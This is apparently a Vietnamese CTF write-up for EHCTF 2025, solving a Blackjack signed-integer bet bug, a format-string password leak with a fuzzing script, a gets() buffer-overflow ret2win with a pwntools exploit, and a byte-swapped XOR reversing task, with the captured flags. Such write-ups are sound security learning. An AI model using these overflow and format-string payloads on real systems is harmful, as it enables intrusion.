




Sau giải này thì cảm xúc lẫn lộn, cũng là lần đầu tiên mình được top 1 trong một giải CTF nào đó mà mình chơi, cũng là lần đầu tiên mà mình tìm được những người teammate khá hiểu ý nhau (các bạn out trình mình vãi, và cũng học đươc nhiều thứ ở đây ehe). Trong thời gian diễn ra giải thì mình đã first blood 3 bài pwn, và second blood 1 bài rev. Các bài mình làm đều rất hay và dưới đây sẽ là write-up cho các bài mình đã giải (có thể giải thích không chi tiết lắm vì đang trong mùa FE...)

# Blackjack



## Reverse Engineering

Thoạt nhìn qua thì chương trình mô phỏng cách chơi `Blackjack` và anh `Vũ Anh` cũng có gửi theo một số cách hướng dẫn (kiểu tung hoả mù :d ), mình lúc đầu cũng bị cuốn vô vì trước giờ không biết chơi `Blackjack`. Sau đây sẽ là phân tích cách hoạt động của chương trình và tìm lỗi của nó ở đâu

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int seed; // eax
  int dogeCoin; // [rsp+8h] [rbp-88h] BYREF
  int choice; // [rsp+Ch] [rbp-84h] BYREF
  _DWORD betAmount[2]; // [rsp+10h] [rbp-80h] BYREF
  FILE *stream; // [rsp+18h] [rbp-78h]
  char s[104]; // [rsp+20h] [rbp-70h] BYREF
  unsigned __int64 v10; // [rsp+88h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  setup();
  seed = time(0LL);
  srand(seed);
  initDeck();
  dogeCoin = 1000;
  while ( 2 )
  {
    printf("\x1B[34m\n--- Black Jack Menu ---\n\x1B[0m");
    puts("1) Play Black Jack");
    puts("2) Buy Flag (Cost: 99999999 Dogecoins)");
    puts("3) Check Balance");
    puts("4) Show Deck Info");
    puts("5) Exit");
    printf("Your choice: ");
    __isoc99_scanf("%d", &choice);
    switch ( choice )
    {
      case 1:
        printf("Enter your bet: ");
        __isoc99_scanf("%d", betAmount);
        if ( betAmount[0] > dogeCoin )
          goto LABEL_4;
        dogeCoin -= betAmount[0];
        playBlackjack(betAmount, &dogeCoin);
        betAmount[1] = betAmount[0];
        dogeCoin += betAmount[0];
        goto LABEL_15;
      case 2:
        if ( dogeCoin <= 99999998 )
        {
LABEL_4:
          printf("\x1B[31mNot enough Dogecoins! You have %d.\n\x1B[0m", dogeCoin);
LABEL_15:
          if ( deckPos > 155 )
          {
            printf("\x1B[33m\nHalf of the shoe has been played. Reshuffling the deck...\n\x1B[0m");
            initDeck();
          }
          continue;
        }
        printf("\x1B[32mYou purchased the flag!\n\x1B[0m");
        stream = fopen("flag.txt", "r");
        if ( stream )
        {
          fgets(s, 100, stream);
          printf("\x1B[35m%s\n\x1B[0m", s);
          fclose(stream);
          goto LABEL_15;
        }
        printf("\x1B[31mFlag file not found!\n\x1B[0m");
        return 1;
      case 3:
        printf("You have \x1B[33m%d\x1B[0m Dogecoins.\n", dogeCoin);
        goto LABEL_15;
      case 4:
        printf("\x1B[33mCards played: %d\nRemaining cards: %d\n\x1B[0m", deckPos, 312 - deckPos);
        goto LABEL_15;
      case 5:
        puts("Goodbye!");
        return 0;
      default:
        puts("Invalid choice.");
        goto LABEL_15;
    }
  }
}
```

Đây là hàm `main`, như ta có thể thấy, chương trình sẽ cho ta chọn các `options`, và điểm đặc biệt ở đây sẽ là `option 1`:

```c
      case 1:
        printf("Enter your bet: ");
        __isoc99_scanf("%d", betAmount);
        if ( betAmount[0] > dogeCoin )
          goto LABEL_4;
        dogeCoin -= betAmount[0];
        playBlackjack(betAmount, &dogeCoin);
        betAmount[1] = betAmount[0];
        dogeCoin += betAmount[0];
        goto LABEL_15;
```

Khi ta chọn option này, nó sẽ yêu cầu ta đặc cược một số lượng nào đó, và vấn đề ở đây là nó dùng format `%d`, tượng trưng cho kiểu `int` và kiểu này là kiểu `số có dấu`, điều này có thể cho ta thấy tiềm năng khai khai thác lỗi ở đây, phân tích sâu bên trong hàm `playBlackjack(betAmount, &dogeCoin)` ta sẽ thấy được ta sẽ khai thác được gì ở tiềm năng đó:

```c
__int64 __fastcall playBlackjack(_DWORD *betAmount, _DWORD *playerDogeCoinPtr)
{
  char n104; // [rsp+17h] [rbp-19h] BYREF
  int playerTotal; // [rsp+18h] [rbp-18h]
  int dealerTotal; // [rsp+1Ch] [rbp-14h]
  int v6; // [rsp+20h] [rbp-10h]
  int RandomCard; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  playerTotal = getRandomCard();
  dealerTotal = getRandomCard();
  playerTotal += getRandomCard();
  dealerTotal += getRandomCard();
  printf("\nDealer shows: \x1B[36m%d\x1B[0m\n", dealerTotal);
  printf("Your total: \x1B[32m%d\x1B[0m\n", playerTotal);
  while ( 1 )
  {
    if ( playerTotal > 21 )
    {
      printf("\x1B[31mBust! You lose.\n\x1B[0m");
      *playerDogeCoinPtr -= *betAmount;
      return 0LL;
    }
    printf("Hit (h) or Stand (s)? ");
    __isoc99_scanf(" %c", &n104);
    if ( n104 != 104 )
      break;
    RandomCard = getRandomCard();
    playerTotal += RandomCard;
    printf("You drew %d, total = \x1B[32m%d\x1B[0m\n", RandomCard, playerTotal);
  }
  printf("\x1B[33m\nDealer's turn...\n\x1B[0m");
  printf("Dealer's initial total: \x1B[36m%d\x1B[0m\n", dealerTotal);
  while ( dealerTotal <= 16 )
  {
    v6 = getRandomCard();
    dealerTotal += v6;
    printf("Dealer drew %d, total = \x1B[36m%d\x1B[0m\n", v6, dealerTotal);
  }
  printf("Dealer's total: \x1B[36m%d\x1B[0m\n\n", dealerTotal);
  if ( dealerTotal <= 21 )
  {
    if ( playerTotal <= dealerTotal )
    {
      if ( playerTotal >= dealerTotal )
      {
        printf("It's a tie! %d vs %d\n", playerTotal, dealerTotal);
      }
      else
      {
        printf("\x1B[31mYou lose! Your total: %d | Dealer total: %d\n\x1B[0m", playerTotal, dealerTotal);
        *playerDogeCoinPtr -= *betAmount;
      }
    }
    else
    {
      printf("\x1B[32mYou win! Your total: %d | Dealer total: %d\n\x1B[0m", playerTotal, dealerTotal);
      *playerDogeCoinPtr += *betAmount;
    }
  }
  else
  {
    printf("\x1B[32mDealer busts! You win.\n\x1B[0m");
    *playerDogeCoinPtr += *betAmount;
  }
  return 0LL;
}
```

Ở hàm này, sẽ mô phỏng lại khi ta chơi `Blackjack`, và khi ta để ý ở đây

```c
    if ( playerTotal > 21 )
    {
      printf("\x1B[31mBust! You lose.\n\x1B[0m");
      *playerDogeCoinPtr -= *betAmount;
      return 0LL;
    }
```

Nếu ta thua, tiền gốc của ta `DogeCoin` sẽ giảm theo số lượng tiền cược mà ta đã đặt ra, nhưng sẽ ra sao nếu ta nhập tiền cược là số ấm? Điều này sẽ làm cho logic mong muốn của chương trình bị sai, và khi này một phép toán `- - = +` sẽ xảy ra, nên lúc này ta sẽ không còn bị trừ tiền gốc nữa, và với số tiền được gia tăng mặc dù ta vãn thua, ta sẽ dễ dàng có được `FLAG` với `case 2`

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF/blackjack
$ nc challenge.ctf.ehc-fptu.club 20760

Welcome to the Black Jack game!
You start with 1000 Dogecoins.
You can buy the flag for 99999999 Dogecoins.
In this game, we use 6 decks of cards like in a real casino.
Deck is reshuffled when more than half of the cards are played.
Dealer hits on 16 and stands on 17.
Use your favourite strategy to win!
Good luck!


--- Black Jack Menu ---
1) Play Black Jack
2) Buy Flag (Cost: 99999999 Dogecoins)
3) Check Balance
4) Show Deck Info
5) Exit
Your choice: 1
Enter your bet: -1000000000

Dealer shows: 8
Your total: 20
Hit (h) or Stand (s)? h
You drew 2, total = 22
Bust! You lose.

--- Black Jack Menu ---
1) Play Black Jack
2) Buy Flag (Cost: 99999999 Dogecoins)
3) Check Balance
4) Show Deck Info
5) Exit
Your choice: 3
You have 1000001000 Dogecoins.

--- Black Jack Menu ---
1) Play Black Jack
2) Buy Flag (Cost: 99999999 Dogecoins)
3) Check Balance
4) Show Deck Info
5) Exit
Your choice: 2
You purchased the flag!
EHCTF{GAmbIE_iS_b4D_DONt_d0_it_577b65b22508}
```

**Lưu ý:**, vì đây là kiểu `int` và giới hạn của nó chỉ là từ `-2,147,483,648 to 2,147,483,647`, nếu ta nhập số ngoài khoảng này ta sẽ làm cho chương trình exit do dòng này

```c
if ( betAmount[0] > dogeCoin )
  goto LABEL_4;
<...>
LABEL_4:
  printf("\x1B[31mNot enough Dogecoins! You have %d.\n\x1B[0m", dogeCoin);
```

Vì lúc này nếu ta nhập số âm và quá giới hạn chứa của `int` nó sẽ bị tràn số và bị đá sang một số dương cực kì lớn. Để giải thích rõ hơn thì mình đã viết một chương trình C đơn giản để hiểu về điều này:

```c
#include <stdio.h>
#include <limits.h>

int main() {
    int a = INT_MAX; // Maximum value of int type
    int b = INT_MIN; // Minimum value of int type

    printf("Maximum value of int: %d\n", a);
    printf("Minimum value of int: %d\n", b);

    // Positive overflow
    a = a + 1;
    printf("After exceeding INT_MAX: %d\n", a);

    // Negative overflow
    b = b - 1;
    printf("After going below INT_MIN: %d\n", b);

    return 0;
}
```

Khi chạy nó

```c
alter ^ Sol in ~/CTFs/2025/EHCTF/blackjack
$ crun test.c
Checking security features of the compiled binary...
[*] '/home/alter/CTFs/2025/EHCTF/blackjack/test'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
Maximum value of int: 2147483647
Minimum value of int: -2147483648
After exceeding INT_MAX: -2147483648
After going below INT_MIN: 2147483647
```

# Secret



## Analysis

Dựa vào description của bài này thì có thể bài này về `Format string bug`. `Format string bug` là một lỗ hổng liên quan đến việc các `format argument` không được kiểm tra kỹ. Khi một chuỗi định dạng (`format string`) được cung cấp bởi người dùng mà không có sự kiểm soát hợp lý, kẻ tấn công có thể lợi dụng để đọc hoặc ghi dữ liệu tùy ý trong bộ nhớ, dẫn đến rò rỉ thông tin hoặc thực thi mã độc.

Bằng cách xử dụng các format như `%p` và `%s`, ta có thể dễ dàng leak tuỳ ý ở nơi nào mà ta muốn, và bài này ta sẽ sử dụng `%s`. Lý do mình biết là `%s` là vì khi mình test, mình đã sẽ dụng `%p` để test trước như một thói quen, thì thấy địa chỉ nó leak ra là một địa chỉ gì đó khá giống địa chỉ stack, và để kiểm tra xem địa chỉ đó có chứa gì không mình đã sử dụng `%s` để kiểm tra và nó leak cho mình chuỗi `Checking your password:`

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF/blackjack
$ nc challenge.ctf.ehc-fptu.club 37918
Enter your password:
%p
Checking your password:0x7fff939847a0
Incorrect password!
Enter your password:
%s
Checking your password:Checking your password:
```

## Exploit Development

Khi đã biết được trên stack của nó có các string rồi thì mình viết một script đề fuzzing xem nó còn gì thêm nữa không

```py
from pwn import *

context.log_level = 'error'

for i in range(1, 51):
    try:
        p = remote('challenge.ctf.ehc-fptu.club', 22909)
        p.sendlineafter(b'password:', f'%{i}$s'.encode())
        p.recvuntil(b'Checking your password:')
        leak = p.recvline().strip()
        print(f'Index {i} -> {leak}')
        p.close()
    except EOFError:
        p.close()
```

Và khi fuzz được một hồi mình nhận thấy ở index 16 có xuất hiện secret password, và việc của ta chỉ là lấy password đó và nhập vào thôi (đừng search password đó trên mạng...)

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF
$ python3 secrect.py
Index 1 -> b'Checking your password:'
Index 2 -> b'(null)'
Index 3 -> b'H='
Index 5 -> b'(null)'
Index 6 -> b':3:3'
Index 7 -> b''
Index 8 -> b'keep going...'
Index 9 -> b'(null)'
Index 11 -> b'(null)'
Index 12 -> b'(null)'
Index 13 -> b'(null)'
Index 14 -> b'(null)'
Index 15 -> b'(null)'
Index 16 -> b'secret password: 177013'
```

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF
$ nc challenge.ctf.ehc-fptu.club 37918
Enter your password:
177013
Checking your password:177013
Correct password! Here is your flag:
EHCTF{how_cAN_yoU_S3E_thlS_seCre7_ad5cd203a6d0}
```

# ezpwn




## Reverse Engineering

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF/ezpwn
$ checksec chall
[*] '/home/alter/CTFs/2025/EHCTF/ezpwn/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Khi sử dụng `checksec` để check các lớp bảo mật của `binary` này, ta có thể thấy được, binary này không có `Canary`, và `PIE` đã tắt. Và khi đào sâu vào phân tích trong `IDA`:

```c
__int64 vuln()
{
  _BYTE v1[32]; // [rsp+0h] [rbp-20h] BYREF

  return gets(v1);
}
```

Ta thấy ở hàm `vuln` sử dụng `gets` để read dữ liệu của chúng ta, và đặc điểm của hàm này là nó sẽ `read unlimited data` mà ta gửi vào điều này có thể dẫn đến `Buffer Overflow`, và với `PIE` tắt và không có `Canary` ta có thể cho chương trình thực thi ở bất kì hàm nào mà ta muốn vì với `Buffer Overflow` ta sẽ kiểm soát được `saved RIP`. Nhưng vấn đề ở đây là ta sẽ cho chương trình nhảy vào đâu? Vì nhìn thoáng quá 2 hàm `win` và `secret` dường như không làm được gì mấy. Thật ra là nó có tác dụng nhưng cách này là một cách `unintended` do mình lúc làm phân tích `IDA` không kĩ và khá no hope về việc cho chương trình nhảy vô đâu nên mình đã làm cách này. Nhưng sau giải anh Vũ Anh có kêu mình check kĩ hơn thì mình nhận thấy có 2 hàm `_dl_relocate_static_pie` và nếu nhìn kĩ hơn thì sẽ có một hàm dư ra một dấu `_` tại hàm này ta thấy được:

```c
int _dl_relocate_static_pie()
{
  char s[104]; // [rsp+0h] [rbp-80h] BYREF
  char filename[8]; // [rsp+68h] [rbp-18h] BYREF
  FILE *stream; // [rsp+70h] [rbp-10h]
  unsigned int i; // [rsp+7Ch] [rbp-4h]

  *(_QWORD *)filename = 'uyu/f`mg';
  for ( i = 0; i <= 7; ++i )
    filename[i] ^= 1u;
  LOBYTE(stream) = 0;
  stream = fopen(filename, "r");
  if ( !stream )
    return puts("Flag file not found!");
  fgets(s, 100, stream);
  return puts(s);
}
```

Chương trình sẽ XOR `filename` của ta với `0x1` và khi XOR xong filename sẽ là `flag.txt` và từ đó dùng `fopen` và `fgets` để mở file và read file thôi

## Exploit Development

Như vậy đây chỉ là một bài `ret2win` đơn giản, nhưng đòi hỏi bạn phải phân tích kĩ, và đây sẽ là exploit của mình:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b *vuln+31
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def method2():

    pl = b'A'*offset + p64(0x0000000000401331) + p64(exe.sym.__dl_relocate_static_pie)

    sl(pl)

def exploit():

    global offset

    offset = 40
    method2()

    interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF/ezpwn
$ ./xpl.py REMOTE challenge.ctf.ehc-fptu.club 48090
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to challenge.ctf.ehc-fptu.club on port 48090: Done
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  31 13 40 00  00 00 00 00  │AAAA│AAAA│1·@·│····│
    00000030  1b 12 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000039
[*] Switching to interactive mode
[DEBUG] Received 0x2f bytes:
    b'EHCTF{JU57_4_rAndOM_fUNC710N_XD_d8ff192d6a83}\n'
    b'\n'
EHCTF{JU57_4_rAndOM_fUNC710N_XD_d8ff192d6a83}
```

# Chỉ là XOR



Do gần đây cũng có ý định luyện tập thêm một chút kĩ năng REV nên mình đã thử sức mình với một số challenge REV ở giải, và chỉ có bài này là mình giải được...

```sh
$ file XorCoBan123.java
XorCoBan123.java: data
```

Khi ta sử dụng `file` để check thì ta nhận thấy rằng đây là một file `data` tức là chứa dữ liệu gì bên trong đó, và khi ta xử dụng `cat` để đọc thử nội dung bên trong nó

```sh
$ cat XorCoBan123.java
.M����@����     �!L!�hTsip orrgmac naon tebr nui  nOD Somed

<...>
```

Nó sẽ ra một cái gì đó và đặc biệt là mình chú ý vào chỗ `hTsip orrgmac naon tebr nui  nOD Somed` và nghi ngờ file này đã bị đổi cấu trúc nên mình đã check thử bằng `xxd`

```sh
$ xxd XorCoBan123.java | head
00000000: 5a4d 0090 0003 0000 0004 0000 ffff 0000  ZM..............
00000010: 00b8 0000 0000 0000 0040 0000 0000 0000  .........@......
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0080 0000  ................
00000040: 1f0e 0eba b400 cd09 b821 4c01 21cd 6854  .........!L.!.hT
00000050: 7369 7020 6f72 7267 6d61 6320 6e61 6f6e  sip orrgmac naon
00000060: 2074 6562 7220 6e75 6920 206e 4f44 2053   tebr nui  nOD S
00000070: 6f6d 6564 0d2e 0a0d 0024 0000 0000 0000  omed.....$......
00000080: 4550 0000 8664 0011 608c 67b2 8400 0001  EP...d..`.g.....
00000090: 05c5 0000 00f0 0027 020b 1802 1e00 0000  .......'........
```

Và đúng như vậy, header của nó là `ZM` và cái chuỗi `hTsip orrgmac naon tebr nui  nOD Somed`, có thể là `This is a program...` và nó đại diện cho một chương trình `.exe` vì thế mình đã viết một script để đảo ngược cấu trúc của nó lại

```py
def swap():
    with open("XorCoBan123.java", "rb") as f:
        enc = f.read()

    n = len(enc)
    data = bytearray(n)

    for i in range(0, n , 2):
        first = enc[i]
        second = enc[i + 1]
        data[i] = second
        data[i + 1] = first

    with open("chall.exe", "wb") as f:
        f.write(data)
```

Và ta sẽ được file `chall.exe` khi mở file này lên và phân tích bằng `IDA`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  Stream *Stream; // rax
  char Buffer[112]; // [rsp+20h] [rbp-80h] BYREF
  unsigned __int8 *encrypted_mtp; // [rsp+90h] [rbp-10h]
  int n36; // [rsp+9Ch] [rbp-4h]

  _main();
  puts("Wellcome to EHCTF 2025");
  Stream = __iob_func();
  fgets(Buffer, 100, Stream);
  n36 = strlen(Buffer);
  if ( Buffer[n36 - 1] == 10 )
    Buffer[--n36] = 0;
  if ( n36 != 36 )
    return 0;
  xor_encrypt(Buffer, 36);
  encrypted_mtp = (unsigned __int8 *)get_encrypted_mtp();
  if ( (unsigned int)compare_strings(Buffer, encrypted_mtp, 36) )
    puts("Correct!");
  return 0;
}
```

Ta có thể thấy được chương trình sẽ read data vào `Buffer` và XOR buffer này bằng `xor_encrypt`

```c
__int64 __fastcall xor_encrypt(char *Buffer, int n36)
{
  __int64 i_1; // rax
  int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    i_1 = (unsigned int)i;
    if ( i >= n36 )
      break;
    if ( i % 2 == 1 )
      Buffer[i] ^= 0x16u;
    else
      Buffer[i] ^= 0xCu;
  }
  return i_1;
}
```

Và ở gần cuối chương trình sẽ xử dụng `compare_strings` để xo sách với `encrypted_mtp`, và khi kiểm tra kĩ hơn ta sẽ biết được đây là một chuỗi `flag` đã bị xor

```c
.rdata:0000000000404020 ; get_encrypted_mtp(void)::MTP
.rdata:0000000000404020 _ZZ17get_encrypted_mtpvE3MTP db  49h ; I
.rdata:0000000000404020                                         ; DATA XREF: get_encrypted_mtp(void)+4↑o
.rdata:0000000000404021                 db  5Eh ; ^
.rdata:0000000000404022                 db  4Fh ; O
.rdata:0000000000404023                 db  42h ; B
.rdata:0000000000404024                 db  4Ah ; J
.rdata:0000000000404025                 db  6Dh ; m
.rdata:0000000000404026                 db  4Eh ; N
.rdata:0000000000404027                 db  77h ; w
.rdata:0000000000404028                 db  65h ; e
.rdata:0000000000404029                 db  78h ; x
.rdata:000000000040402A                 db  6Dh ; m
.rdata:000000000040402B                 db  6Fh ; o
.rdata:000000000040402C                 db  7Dh ; }
.rdata:000000000040402D                 db  63h ; c
.rdata:000000000040402E                 db  6Dh ; m
.rdata:000000000040402F                 db  72h ; r
.rdata:0000000000404030                 db  63h ; c
.rdata:0000000000404031                 db  78h ; x
.rdata:0000000000404032                 db  6Bh ; k
.rdata:0000000000404033                 db  7Fh ; 
.rdata:0000000000404034                 db  6Dh ; m
.rdata:0000000000404035                 db  78h ; x
.rdata:0000000000404036                 db  7Ah ; z
.rdata:0000000000404037                 db  7Fh ; 
.rdata:0000000000404038                 db  62h ; b
.rdata:0000000000404039                 db  79h ; y
.rdata:000000000040403A                 db  6Fh ; o
.rdata:000000000040403B                 db  7Eh ; ~
.rdata:000000000040403C                 db  65h ; e
.rdata:000000000040403D                 db  4Eh ; N
.rdata:000000000040403E                 db  43h ; C
.rdata:000000000040403F                 db  44h ; D
.rdata:0000000000404040                 db  4Ch ; L
.rdata:0000000000404041                 db  56h ; V
.rdata:0000000000404042                 db  4Ch ; L
.rdata:0000000000404043                 db  6Bh ; k
```

Và việc ta cần làm chỉ là lấy chuỗi đó ra và viết scipt XOR ngược lại thôi

```py
def swap():
    with open("XorCoBan123.java", "rb") as f:
        enc = f.read()

    n = len(enc)
    data = bytearray(n)

    for i in range(0, n , 2):
        first = enc[i]
        second = enc[i + 1]
        data[i] = second
        data[i + 1] = first

    with open("chall.exe", "wb") as f:
        f.write(data)


def xor(data):
    n = len(data)
    result = bytearray(n)
    for i in range(n):
        if (i % 2 == 1):
            result[i] = data[i] ^ 0x16
        else:
            result[i] = data[i] ^ 0xC

    return result

# swap()
enc = bytes.fromhex("49 5E 4F 42 4A 6D 4E 77 65 78 6D 6F 7D 63 6D 72 63 78 6B 7F 6D 78 7A 7F 62 79 6F 7E 65 4E 43 44 4C 56 4C 6B 00 00")
flag = xor(enc)
print(flag)
# EHCTF{BainayquadongianvinochiXOR@@@}
```
